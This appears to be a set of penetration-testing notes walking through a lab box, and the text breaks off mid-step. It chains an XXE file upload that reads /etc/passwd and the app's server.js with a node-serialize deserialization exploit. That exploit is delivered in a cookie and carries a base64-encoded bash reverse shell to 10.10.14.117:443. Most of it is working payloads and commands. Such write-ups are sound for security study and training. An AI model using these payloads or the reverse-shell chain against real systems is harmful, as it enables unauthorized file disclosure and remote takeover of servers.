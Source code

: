 #### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
### Burp to XXE
Operators Handbook pg 322
After logging in, go to file upload.
Create a test.txt with random characters.
echo "fdafasfsdf" > test.txt
Upload with Burp on.
Look in Burp for POST /articles/xml
Make a test.xml file with the template provided from Burp request:
test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```
Upload the new test.xml file.
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability
Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```
Combine it with our xml code, update the description with "&example;":
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```
Verify we see "Doe" in the description field.
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
Pay attention to the !ENTITY value "test", and replace accordingly with the description field.
```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```
Great, now for node.js system, we need to find one of the following files:
/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js
Replace the payload until one works.
Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.
Look at line 6, requirement of node-serialize.
>const serialize = require('node-serialize')
Google "node-serialize exploit"
https://snyk.io/test/npm/node-serialize
```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```
While logged in, capture a request to "/" in Burp.
Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```
```bash - kali
echo "bash  -i >& /dev/tcp/10.10.14.117/443  0>&1" | base64
```
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=
```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```
Final should look like:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Highlight and convert selection to URL encoded:
Convert selection > URL > URL encode ALL characters
Request should look like:
